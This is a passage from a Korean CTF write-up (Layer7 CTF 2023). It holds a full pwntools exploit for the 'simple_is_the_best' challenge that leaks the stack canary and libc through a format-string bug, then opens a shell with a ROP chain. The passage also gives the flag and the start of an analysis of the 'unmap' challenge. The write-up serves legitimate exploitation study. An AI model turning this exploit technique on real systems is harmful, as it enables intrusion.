 Partial RELRO가 걸러 있기 때문에, FSB를 통한 GOT Overwrite로도 풀 수 있을 것 같긴 하다. 나는 단순히 FSB는 libc와 Canary leak 용도로만 사용하고, ROP 해서 풀어냈다.

### **[0x03] 익스플로잇**

```python
from pwn import *

context(arch='amd64', os='linux')
if args.REMOTE:
    p = remote("prob.layer7.kr", 10008)
    libc = ELF("./libc-2.27.so", False)
else:
    p = process("./simple_is_the_best", aslr=1)
    libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6", False)

payload = b'%p:' * 32
p.sendlineafter(b"Chu: ", payload)
res = p.recvline().split(b":")
canary = int(res[18], 16)
log.success(f"canary @ {hex(canary)}")

libc.address = int(res[20], 16) - libc.libc_start_main_return
log.success(f"libc base @ {hex(libc.address)}")

rop = ROP(libc)
rop.call(rop.find_gadget(["ret"]))
rop.call("system", [next(libc.search(b"/bin/sh"))])
payload = b'A'*0x68
payload += p64(canary)
payload += b'B'*8
payload += rop.chain()
p.sendafter(b"Best!", payload)
p.sendline(b'cat flag')

p.interactive()
```

`Layer7{S1rnPl3_1S_tH3_B3ST!~!}`

## **2. unmap**

### **[0x01] 요약**

mmap RWX page allocation with Stack BOF + Shellcoding

[unmap chal](https://github.com/brwook/binary/raw/main/2023-Layer7-CTF/ummap.zip)

### **[0x02] 분석**

```c
void *allocateMemory()
{
  char s[24]; // [rsp+0h] [rbp-30h] BYREF
  int v2; // [rsp+18h] [rbp-18h]
  int prot; // [rsp+1Ch] [rbp-14h]
  int flags; // [rsp+20h] [rbp-10h]
  int fd; // [rsp+24h] [rbp-Ch]
  int v6; // [rsp+28h] [rbp-8h]
  int v7; // [rsp+2Ch] [rbp-4h]

  Init();
  v7 = 0;
  v6 = 0;
  fd = -1;
```